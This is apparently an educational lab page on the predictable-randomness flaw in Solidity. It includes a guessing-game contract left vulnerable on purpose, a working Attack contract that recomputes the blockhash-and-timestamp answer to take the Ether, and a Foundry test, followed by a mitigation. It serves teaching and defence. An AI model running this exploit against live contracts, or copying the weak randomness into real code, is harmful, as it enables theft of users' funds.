

# Randomness  
[Randomness.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Randomness.sol)   
**Name:** Predictable Randomness Vulnerability

**Description:**  
Use of global variables like block hash, block number,
block timestamp and other fields is insecure, miner and attacker can control it.

**Scenario:**  
GuessTheRandomNumber is a game where you win 1 Ether if you can guess the pseudo random number generated from block hash and timestamp.

At first glance, it seems impossible to guess the correct number.But let's see how easy it is win.

1. Alice deploys GuessTheRandomNumber with 1 Ether
2. Eve deploys Attack
3. Eve calls Attack.attack() and wins 1 Ether

**What happened?**  
Attack computed the correct answer by simply copying the code that computes the random number.

**Mitigation:**  
Don't use blockhash and block.timestamp as source of randomness

**REF:**

https://solidity-by-example.org/hacks/randomness/

**GuessTheRandomNumber Contract:**  
```
contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```
****How to Test:****

forge test --contracts src/test/**Randomness.sol**-vvvv  
```
// Function to test an attack on a contract using predictable randomness.
function testRandomness() public {
    // Assigns address values to 'alice' and 'eve' from the Ethereum virtual machine.
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice is given 1 ether.
    vm.deal(address(alice), 1 ether);

    // Some prank function is called with Alice's address.
    vm.prank(alice);

    // An instance of GuessTheRandomNumberContract is created with a balance of 1 ether.
    GuessTheRandomNumberContract = new GuessTheRandomNumber{value: 1 ether}();

    // A prank on Eve is started.
    vm.startPrank(eve);

    // An instance of the Attack contract is created.
    AttackerContract = new Attack();

    // The current balance of the AttackerContract is logged.
    console.log("Before exploiting, Balance of AttackerContract:", address(AttackerContract).balance);

    // The Attack contract attempts to guess the random number of the GuessTheRandomNumberContract.
    AttackerContract.attack(GuessTheRandomNumberContract);

    // The balance of the AttackerContract is logged again, showing if the attack was successful.
    console.log("Eve wins 1 Eth, Balance of AttackerContract:", address(AttackerContract).balance);

    // Logs a message indicating the exploit is complete.
    console.log("Exploit completed");
}


// The Attack contract that attempts to guess the random number of the GuessTheRandomNumberContract.
contract Attack {
    // A function that allows this contract to receive Ether.
    receive() external payable {}

    // The attack function that calculates the pseudo-random number using the same logic as the GuessTheRandomNumberContract 
    // and uses that to guess the number.
    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        // Calls the guess function of GuessTheRandomNumber contract with the guessed answer.
        guessTheRandomNumber.guess(answer);
    }

    // Helper function to check the balance of this contract.
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
``` 
Red box: guessed the answer and win the game.  
